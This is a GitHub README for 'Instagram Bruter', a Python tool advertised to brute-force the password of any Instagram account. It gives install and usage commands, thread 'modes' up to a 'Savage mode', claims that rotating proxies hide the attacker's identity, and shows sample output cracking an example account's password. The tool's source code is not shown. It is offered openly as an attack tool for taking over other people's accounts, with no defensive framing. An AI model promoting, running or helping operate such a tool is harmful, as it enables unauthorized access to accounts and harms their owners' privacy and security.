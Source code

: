 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.0-blue.svg)]()
[![Python](https://img.shields.io/badge/Python-v2.7--3-blue.svg)]()
[![Discord](https://img.shields.io/badge/Chat-Server-brightgreen.svg)](https://discord.gg/SMUaWmn)
<br>

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode, after, press enter and forget about it. You don't need to worry about anonomity when using this program, it uses varies proxies to hide your IP. It is programmed to attack only when your identity is hidden. 

### Support
**It's not easy maintaining this code, a donation of any size will be appreciated**<br>

[![Donate](https://img.shields.io/badge/Paypal-Donate-orange.svg)]( https://www.paypal.me/Msheikh03)

### Requirements
- Python *v2.7.x* **|** *v3.x.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Install Dependencies
```
python install.py
```

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 16 bots; 1 => 8 bots; 2 => 4 bots; 3 => 2 bots
```

### Usage
```
python instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)
- 2 bots: 32 passwords at a time
- 4 bots: 64 passwords at a time
- 8 bots: 128 passwords at a time
- 16 bots: 256 passwords at a time

### Modes
- 0: 16 bots
- 1: 8 bots
- 2: 4 bots
- 3: 2 bots

### Chill mode
This mode uses only 2 bots, or 32 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1
This mode uses 4 bots, or 64 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2
This mode uses 8 bots, or 128 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode
This mode uses 16 bots, or 256 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 2
[-] Attempts: 14
[-] Browsers: 87
```

### Stop
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 101
[-] Browsers: 0

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
